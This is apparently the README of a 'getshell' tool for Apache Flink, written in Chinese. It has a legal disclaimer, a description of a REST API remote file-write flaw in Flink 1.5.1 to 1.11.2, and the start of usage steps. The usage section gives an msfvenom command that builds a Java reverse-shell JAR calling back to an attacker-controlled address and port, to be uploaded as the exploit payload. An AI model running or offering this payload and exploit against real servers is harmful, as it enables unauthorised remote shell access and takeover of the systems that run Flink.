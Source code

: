 # Apache-flink-fileupload-getshell
Apache-Flink


# 免责声明
使用本程序请自觉遵守当地法律法规，出现一切后果均与作者无关。

本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!

严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!

由于用户滥用造成的一切后果与作者无关。

切勿用于非法用途，非法使用造成的一切后果由自己承担，与作者无关。

### 背景介绍
```
Apache Flink是一个面向数据流处理和批量数据处理的可分布式的开源计算框架。它可以用来做批处理，即处理静态的数据集、历史的数据集；也可以用来做流处理，即实时地处理一些实时数据流，实时地产生数据的结果；也可以用来做一些基于事件的应用；该漏洞允许攻击者利用REST API，并通过精心构造的HTTP Header，实现远程文件写入。

影响版本：Apache Flink: 1.5.1 —— 1.11.2
```


### 食用方法

首先需要使用msf生成一个jar包的攻击载荷
```
msfvenom -p java/shell_reverse_tcp lhost=192.168.99.5 lport=4444 -f jar > exp.jar
```

